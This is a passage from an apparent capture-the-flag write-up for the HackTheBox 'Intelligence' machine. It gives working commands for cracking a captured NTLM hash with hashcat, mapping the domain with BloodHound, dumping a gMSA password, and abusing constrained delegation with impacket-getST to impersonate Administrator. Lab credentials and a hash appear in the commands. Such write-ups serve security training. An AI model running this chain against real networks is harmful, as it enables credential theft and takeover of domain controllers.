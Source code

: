 Great, crack it via hashcat module 5600

```
hashcat -m 5600 hash  /usr/share/wordlists/rockyou.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918195801.png)

TED.GRAVES   Mr.Teddy
Checking Ted we have access to same shares nothing more, so let's run bloodhound 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250918195924.png)

```
bloodhound-python -d intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' -ns 10.10.10.248 -c all
```

In bloodhound I found path to domain from ted graves

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919075201.png)

Ok, so let's start with readings GMSAPassword of svc_int user, I will use gMSADumper.py

```
python3 gMSADumper.py -u 'TED.GRAVES' -p 'Mr.Teddy' -d 'intelligence.htb'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919075528.png)

While reading about gmsa passwords I found better way 

```
nxc ldap intelligence.htb -u 'TED.GRAVES' -p 'Mr.Teddy' --gmsa
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919080037.png)

Now we have svc_int ntlm hash, moving on to the last part of this machine we need to abuse AllowedToDelegate to impersonate Administrator to get access to dc.
Quick check spn

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919080738.png)

Next synchronize our time with DC and run getst from impacket

```
ntpdate 10.10.10.248
```

```
impacket-getST -dc-ip 10.10.10.248 -spn www/dc.intelligence.htb -hashes :1dcabcce2cf522bae77d7dc622587879 -impersonate administrator intelligence.htb/svc_int
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250919081230.png)

Now we have to import ccache and connect to dc via smb
